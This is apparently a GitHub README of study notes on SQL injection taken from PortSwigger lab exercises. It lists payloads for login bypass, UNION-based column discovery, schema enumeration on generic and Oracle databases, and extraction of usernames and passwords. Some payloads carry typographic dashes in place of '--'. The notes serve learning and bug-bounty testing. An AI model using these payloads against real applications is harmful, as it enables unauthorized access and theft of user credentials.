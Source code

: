 # SQL-Injection_Bug_Bounty
##All taken fron portswigger lab

The application doesn't implement any defenses against SQL injection attacks, so an attacker can construct an attack like:

	https://insecure-website.com/products?category=Gifts'--
This results in the SQL query:

	SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
Going further, an attacker can cause the application to display all the products in any category, including categories that they don't know about:

	https://insecure-website.com/products?category=Gifts'+OR+1=1--
  
	SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
	since 1=1 is always true
Check response:    ‘--      |   #--

**Subverting application logic/Login form:**

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username administrator'-- and a blank password results in the following query:

	SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

![image](https://user-images.githubusercontent.com/37367596/192005023-3f13a816-0a13-4f0a-8ff5-cf85222e8604.png)


**Retrieving data from other database tables/Union attack:**

For a UNION query to work, two key requirements must be met:

 1.The individual queries must return the same number of columns.
 
 2.The data types in each column must be compatible between the individual queries.

To carry out an SQL injection UNION attack, you need to ensure that your attack meets these two requirements. This generally involves figuring out

 1.How many columns are being returned from the original query?
 
 2.Which columns returned from the original query are of a suitable data type to hold the results from the injected query?
 
**There are two effective methods to determine how many columns are being returned from the original query.**
**The first method** involves injecting a series of** ORDER BY** clauses and incrementing the specified column index until an error occurs.

' ORDER BY 1--

 ' ORDER BY 2-- 
 
' ORDER BY 3--
etc.
![image](https://user-images.githubusercontent.com/37367596/192006415-207e60bb-4977-4895-9a57-43fed4f6c250.png)


The application might actually return the **database error** in its HTTP response, or it might return a **generic error**, or simply return **no results**

**The second method** involves submitting a series of UNION SELECT payloads specifying a different number of null values

' UNION SELECT NULL—

 ' UNION SELECT NULL,NULL—
 
 ' UNION SELECT NULL,NULL,NULL– 

' UNION SELECT NULL FROM DUAL--     (oracale database)

**Finding columns with a useful data type(string/int/or other types) in an SQL injection UNION attack**

' UNION SELECT NULL,NULL,NULL,'a'—

' UNION SELECT NULL,'a',NULL,NULL—

' UNION SELECT username, password(coloumns) FROM users– (table)

![image](https://user-images.githubusercontent.com/37367596/192007589-7f01ddc9-e5a5-40a5-8004-c2c116e0ca55.png)

![image](https://user-images.githubusercontent.com/37367596/192009263-e2ee5bbc-e882-44d2-835a-b46c1b5ad3aa.png)

**Listing the contents of the database:**

Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

	SELECT * FROM information_schema.tables
	
**You can then query information_schema.columns to list the columns in individual tables**

	SELECT * FROM information_schema.columns WHERE table_name = 'Users
	
	
 **Use the following payload to retrieve the list of database:**
 
	' UNION select schema_name,NUll from INFORMATION_SCHEMA.SCHEMATA--
	
**2.Use the following payload to retrieve the list of tables in the database:**

	'UNION SELECT table_name,NULL FROM information_schema.tables--
	
schema_name=database;

information_schema=databaseName

**3.Use the following payload (replacing the table name) to retrieve the details of the columns in the table**

 'UNION SELECT column_name ,NULL FROM information_schema.columns WHERE table_name='users_uvlvoo'—

**4. To find information of username and password**

	‘ UNION SELECT username_jovsyx, password_abwqcw FROM users_uvlvoo– 
	
    concate: ' UNION SELECT NULL,username || '---->' || password FROM users--

![image](https://user-images.githubusercontent.com/37367596/192010124-561016c4-f865-469f-9c8d-6f0a388e86b1.png)


 **Equivalent to information schema on Oracle**
 
You can list tables by querying all_tables : SELECT * FROM all_tables

And you can list columns by querying  all_tab_columns  :  SELECT * FROM  all_tab_columns WHERE  table_name = 'USERS‘

1. Use the following payload to retrieve the list of database:

 	 ' UNION SELECT SYS.DATABASE_NAME,NULL FROM DUAL--

2. Use the following payload to retrieve the list of tables in the database:

 	 ‘ UNION SELECT table_name, NULL FROM all_tables--

3.Use the following payload (replacing the table name) to retrieve the details of the columns in the table

  	'UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name ='USER$'—

4. To find information of username and password

	‘ UNION SELECT username_jovsyx, password_abwqcw FROM users_uvlvoo– 
![image](https://user-images.githubusercontent.com/37367596/192018303-8d02a8de-68eb-4b8f-9128-696824edfe9a.png)


	
	

	






